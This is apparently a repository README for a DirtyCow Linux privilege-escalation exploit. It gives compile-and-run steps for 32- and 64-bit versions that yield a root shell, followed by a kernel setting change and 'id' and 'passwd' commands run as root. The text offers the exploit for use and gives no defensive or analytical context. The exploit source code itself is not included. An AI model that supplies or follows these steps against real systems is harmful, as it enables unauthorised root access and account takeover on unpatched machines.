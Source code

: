 # DirtyCow
Dirtycow exploit for both 32 and 64-bit 

# Usage Example For 32 Bit

Compile -o = Output
* $ gcc dc32.c -o cowroot -pthread
Run
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs
* # id
* # passwd

# Usage Example For 64 Bit

* $ gcc dc64.c -o cowroot -pthread
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs
